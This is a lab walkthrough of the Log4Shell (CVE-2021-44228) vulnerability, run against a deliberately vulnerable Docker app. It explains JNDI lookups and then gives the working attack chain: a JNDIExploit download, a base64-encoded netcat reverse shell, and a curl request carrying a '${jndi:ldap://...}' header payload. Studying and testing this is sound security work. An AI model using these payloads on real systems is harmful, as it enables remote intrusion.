






# log4shell



`CVE-2021-44228` a zero-day critical java vulnerablility leads to Remote Code Execution (RCE), if you wanna read the story of vulnrability check this [article](https://www.lunasec.io/docs/blog/log4j-zero-day/)

> I lost my md files of this [blog](https://b0yk4.github.io/), this md file is temporary until i rebuild and update my blog.

Here I will talk about much technical details, how the exploit works, how to exploit and how to metigate.

Tools needed:
- [docker container](https://docs.docker.com/engine/install/ubuntu/)
- [vulnrable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [JNDIExploit](https://web.archive.org/web/20211212102424/https://github.com/feihong-cs/JNDIExploit/)

## overview

This whole massive story is because of a variable get logged by `log4j` library 
```java
log.info("user name: ", userName);
```
And if this variable is controlled by the user whether it's an http header or any user input then the user can do arbitrary code execution with this variable value using the log4j format 
```txt
${java:version}
```
So any java application using log4j library for logging will be vulnerable not just `apache` it could be laterally **any java application** 

## log4j library
log4j has [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) feature, Lookups provide a way to add values to the Log4j configuration at arbitrary places. As we said java version as example `${java:version}`

The lookup we intersted in is `jndi lookup` which enalbles the app to communicate with `ldap` server.

 

in normal scenario the `jndi` expects to recieve a java class from the `ldap` server


the abusing of this lookup is to make our ldap server and call it by changing the logged variable with `${jndi:ldap://our-ip:1389/malitious-class}`



vulnerable code example:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

## set up vulnerable app

after installing [docker container](https://docs.docker.com/engine/install/ubuntu/), clone the vulnerable app and build it 

```sh
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
sudo docker build . -t vulnerable-app
```
run the app on port 8080 or any port you want
```sh
sudo docker run --rm -p8080:8080 vulnerable-app
```
now we have a server up and running with a vulnerable app

## exploitation
get the JNDI injector and run it with your machine ip
```sh
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.96.133
```
this JNDIExploit takes the commands and converts it to java class and send it back to the server interface



we need a reverse shell to connect back to our kali machie 
```sh
echo -n "nc 192.168.96.133 4444 -e /bin/sh"|base64
```
bmMgMTkyLjE2OC45Ni4xMzMgNDQ0NCAtZSAvYmluL3No

lets set netcat listener
```sh
nc -lvvp 4444
```

now its time to send the malitious string as a value of `X-Api-Version` http header, which will connect to our running JNDI injector with `ldap` on port `1389` giving it our reverse shell command
```sh
curl -H 'X-Api-Version: ${jndi:ldap://192.168.96.133:1389/Basic/Command/Base64/bmMgMTkyLjE2OC45Ni4xMzMgNDQ0NCAtZSAvYmluL3No}' 192.168.96.134:8080
```
the injector will send the malious java class to the target which will execute the command and gives us the shell



## mitigation

follow [this guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/) for mitigation

